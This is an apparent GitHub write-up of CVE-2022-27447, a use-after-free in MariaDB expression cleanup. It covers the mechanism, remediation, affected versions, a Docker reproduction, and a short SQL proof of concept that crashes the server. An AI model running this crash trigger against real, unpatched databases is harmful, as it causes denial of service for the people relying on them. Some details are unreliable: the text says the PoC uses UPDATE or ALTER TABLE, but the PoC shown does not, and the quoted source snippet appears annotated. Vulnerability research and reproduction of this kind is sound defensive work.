



# CVE-2022-27447 CWE-416 MariaDB UAF

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
In the destructing/cleanup path for virtual columns/expressions, MariaDB calls `free_buffer()` the underlying buffer of Binary_string objects to release memory, but the remaining related objects continue to access the buffer in the destructing flow, resulting in use-after-free. 

## Vulnerability Location
According to CVE records and the ASan report for MDEV-28099, the first unauthorized access was made to the `Binary_string::free_buffer()` located at `sql/sql_string.h` (line 224 in the report). Hazard release enters from `Binary_string::~Binary_string()`, then goes through `Arg_comparator::~Arg_comparator()`, `Item_func_eq` deconstruction, and `Query_arena::free_items()`.

```cpp
void Binary_string::free_buffer()
{
  if (m_ptr && !is_alloced())
    return;
  /* The vulnerable cleanup path can reach a buffer whose arena storage has
     already been poisoned/released. */
  my_free(m_ptr);
  m_ptr= nullptr;
}
```

Therefore, the core issue of the vulnerability is the duplication/expiration release of the `Binary_string` buffer during the expression comparator cleanup phase, rather than the `UPDATE` or `ALTER TABLE` statements in the PoC itself. The `READ of size 1` of `sql/sql_string.h:224` in the ASan call stack is the direct basis for determining that position.

## Remediation

Upgrade to MariaDB 10.3.35, 10.4.25, 10.5.16, 10.6.8, 10.7.4, or later with the MDEV-28099 correction. The fixed cleanup path preserves the ownership distinction between arena-backed and independently allocated `Binary_string` storage, so destruction of an `Arg_comparator` cannot free an already released or non-owned buffer.

Until upgrade, limit the ability of untrusted users to define or repeatedly rebuild generated-column expressions and avoid workloads matching the supplied PoC. Because the error occurs during internal expression cleanup, privilege restriction and workload avoidance are only mitigations, not reliable repairs.

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2022-27447-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27447-PoC.sql, and you'll see that the connection is disconnected and the container automatically closes

```sql
source CVE-2022-27447-PoC.sql
```



4. Check the MariaDB crash log, and you can see that UAF occurrence is detected as causing DoS.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (a int, b int DEFAULT (1 IN (dayname(a),'2'))) ;
insert into t1(a) values (1);
insert into t1(a) values (1);
```

## References
[NVD - CVE-2022-27447](https://nvd.nist.gov/vuln/detail/CVE-2022-27447)

[[MDEV-28099\] MariaDB UAP issue - Jira](https://jira.mariadb.org/browse/MDEV-28099)
